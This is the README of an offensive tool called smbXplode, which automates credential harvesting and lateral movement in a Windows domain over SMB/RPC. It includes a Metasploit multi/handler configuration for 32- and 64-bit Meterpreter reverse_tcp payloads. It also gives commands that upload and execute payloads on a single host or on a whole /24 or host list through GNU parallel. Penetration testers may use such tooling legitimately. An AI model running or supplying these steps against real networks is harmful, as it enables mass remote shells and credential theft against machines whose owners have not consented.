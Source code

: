 # smbXplode

What to do when Metasploit psexec module doesn't work for no good reason? 

This script is used to automate the process of harvesting credentials and getting Meterpreter sessions through smb and rpc in a windows domain.
For this to work you would need to have some kind of admin credentials to start with. or you could have some low privileged credentials; that you want to try them against the whole range and try to escalate your privilege later on. 

You can always re-adapt msfcommands.rc to automate the Metasploit commands that you want to run once you have a session. 

Also notice that due to the use of net rpc, you need to migrate first thing after a session otherwise the session would die. You can always fall back to use the Winexe command (which you can find commented in the script).

### Features 
- Detects remote host architecture before uploading payload
- Abstracts the process of upload/execute payload on remote host
- Combined with "gnu parallel", it can exploit whole ranges/host lists within one command line

### Future improvements
- Better integrate gnu parallel with in the script itself for more convenience.
- Improve the way arguments are passed, add arguments for number of threads, ip ranges, host files. 
- Add the ability to go through a list of captured credentials, to check them against the ip/range in scope. 
- Add pass the hash option if password is not available

### Usage 
Before running this script, simply make sure that you have two payload files (32 & 64 bit). Make sure to update the name of the files accordingly in the script. 


#### Metasploit Handler
Make sure to have your Metasploit handler listening for both payloads ( you can listen two different ports for 32, and 64 ).
Also, make sure you select the correct payload for the handler, I will demonstrate the reverce_tcp (32 and 64) 

Example :

```
use exploit/multi/handler
set autorunscript multi_console_command -rc /path/to/msfcommands.rc
set ExitOnSession false
set payload windows/x64/meterpreter/reverse_tcp
set lhost 0.0.0.0
set lport 1111
run -j -z
set payload windows/meterpreter/reverse_tcp
set lport 2222
run -j -z
```

Now make sure that your connect back payloads are configured to match those ports and payload type. 

#### Single Host
To run the script simply use the following syntax
```	
./smbXplode.sh domain username password hostIP
```

Example : 
```
./smbXplode.sh domain tito Password2015 10.10.10.10
```

#### Multiple Hosts
So far it's not really integrated into the script, as I like to keep it as simple as possible. I rely on GNU parallel to do that. 
Notice that parallel passes the IP as the last parameter already. 

Example 
```
Running against a /24
for i in {1..254}; do echo 10.10.10.$i; done | parallel -j 5 ./smbXplode.sh domain tito Password2015
```
```
Running against host ips file
cat hosts.txt | parallel -j 5 ./smbXplode.sh domain tito Password2015
```


